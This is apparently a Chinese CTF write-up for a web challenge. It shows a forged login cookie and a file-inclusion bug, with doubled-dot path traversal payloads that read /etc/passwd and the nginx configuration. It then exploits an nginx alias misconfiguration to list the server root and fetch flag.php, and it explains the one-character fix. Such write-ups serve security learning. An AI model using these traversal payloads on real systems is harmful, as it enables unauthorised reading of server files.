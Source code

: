 ```yaml
---
title: Zone--Nginx配置出错
date: 2018-03-20 00:00:01
categories:
- CTF/Web
tags: 百度杯二月 
--- 
```


工控线下的web就是源于此题

## 登录绕过

- 登录框尝试注入无果，全是网站建设中
- burp拦包发现cookie中有一个login字段，改为1，重新访问index.php


## 文件包含

```url
/manages/admin.php?module=index&name=php
```

这里要进行测试:
```url

/index.php          # 有界面
/manages/index.php  # 只有字
/admin.php          # 404



/manages/admin.php?module=index.php&name=  # 正常访问
/manages/admin.php?module=admin.php&name=  # 空
/manages/admin.php?module=admin&name=php   # 空

/robots.txt         # 提示flag.php
/manages/robots.txt # 404

/manages/admin.php?module=robots.txt&name=   # 提示flag.php

```

说明文件包含的路径并非manages/应该是其父目录，即网站的根目录，继续测试：

```url
/manages/admin.php?module=/manages/index.php&name= # 只有字
/manages/admin.php?module=/manages/admin.php&name= # 嵌套了
```

说明猜想正确，尝试用../读取/etc/passwd:

```url
/manages/admin.php?module=../../../../../../../../etc/passwd&name= # 空
```

尝试双写../即..././或....//绕过：

```url
manages/admin.php?module=....//....//....//....//....//....//..../etc/passwd&name=     # 成功
manages/admin.php?module=..././..././..././..././..././..././..././etc/passwd&name=    # 成功
```

## nginx配置文件

一般nginx的配置文件存放在`/etc/nginx`目录下

- `/etc/nginx/nginx.conf`
- `/etc/nginx/conf.d/default.conf`

其中第一个配置文件中一般会有如下语句：

```
include /etc/nginx/conf.d/*.conf
```

包含了/etc/nginx/conf.d/路径中全部的配置文件，所以/etc/nginx/nginx.conf才是nginx的主要配置文件，尝试读取本题的配置文件：

```
manages/admin.php?module=..././..././..././..././..././..././..././etc/nginx/nginx.conf&name= 
```

```
worker_processes  1;
events {
    worker_connections  1024;
}


http {
    include       mime.types;
    default_type  application/octet-stream;
    include  sites-enabled/default;
}

```

继续读取sites-enabled/default

```
manages/admin.php?module=..././..././..././..././..././..././..././etc/nginx/sites-enabled/default&name=
```

```

                        server {
    listen 80;
    #listen [::]:80 default_server ipv6only=on;

    root /var/www/html;
    index index.php index.html index.htm;

    server_name localhost;

    location / {
        try_files $uri $uri/ =404;
        location ~ \.php$ {
            fastcgi_split_path_info ^(.+\.php)(/.+)$;
            fastcgi_param  SCRIPT_FILENAME  /var/www/html$fastcgi_script_name;
            #fastcgi_pass unix:/var/run/php5-fpm.sock;
            fastcgi_pass   127.0.0.1:9000;
            fastcgi_index index.php;
            include fastcgi_params;
        }
    }

    error_page 404 /404.html;

    error_page 500 502 503 504 /50x.html;
    location = /50x.html {
        root /var/www/html;
    }

    location /online-movies {
            alias /movie/;
            autoindex on;
        }
    
    location ~ /\.ht {
        deny all;
    }
}

```

这里重点看：

```
location /online-movies {
            alias /movie/;
            autoindex on;
    }

```

- 他将访问中/online-movies的请求定向到服务器根目录的movie路径（注意不是网站根目录）
- 于是当我们请求/online-movies../时，会变成/movie/..，就是服务器根路径，导致目录浏览
- 修改/online-movies为/online-movies/即可避免此问题

于是利用如下直接访问/var/www/html/flag.php获取源码即可，注意因为html/下存在index.php，所以直接通过鼠标点进去无法查看html下的文件列表。

```
http://28b14bfa5fac4cd69cb3952211e0f26a9b8caedb3f5d4d38.game.ichunqiu.com//online-movies../var/www/html/flag.php
```
